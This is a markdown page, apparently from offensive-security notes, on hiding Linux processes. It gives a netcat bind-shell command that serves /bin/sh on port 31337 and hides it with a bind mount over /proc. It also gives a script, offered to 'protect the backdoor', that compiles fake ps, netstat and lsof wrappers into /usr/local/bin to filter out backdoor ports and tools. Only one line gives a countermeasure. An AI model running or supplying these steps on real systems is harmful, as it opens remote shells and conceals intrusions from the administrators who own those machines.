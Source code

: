 # Hiding Processes

{% embed url="https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit" %}

{% embed url="https://www.linode.com/docs/guides/linux-defense-evasion-hiding-linux-processes" %}

## <mark style="color:red;">Process Hiding Techniques</mark>

{% embed url="https://flaviu.io/linux-how-to-a-hide-processes" %}

#### <mark style="color:green;">Listening sockets, hiding from ps and lsof</mark> <a href="#hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### <mark style="color:green;">Countermeasure:</mark>

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`

## <mark style="color:red;">Script</mark>

Run the script to protect the backdoor from discovery through **ps**, **netstat** or **lsof**

```
#!/bin/bash

#netstat
#------------------------
touch /tmp/.netstat.c

cat <<EOF >> /tmp/.netstat.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/netstat \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.netstat.c -o /usr/local/bin/netstat

rm /tmp/.netstat.c


#ps
#------------------------
touch /tmp/.ps.c

cat <<EOF >> /tmp/.ps.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/ps \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.ps.c -o /usr/local/bin/ps

rm /tmp/.ps.c


#lsof
#------------------------
touch /tmp/.lsof.c

cat <<EOF >> /tmp/.lsof.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/usr/bin/lsof \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.lsof.c -o /usr/local/bin/lsof

rm /tmp/.lsof.c
```
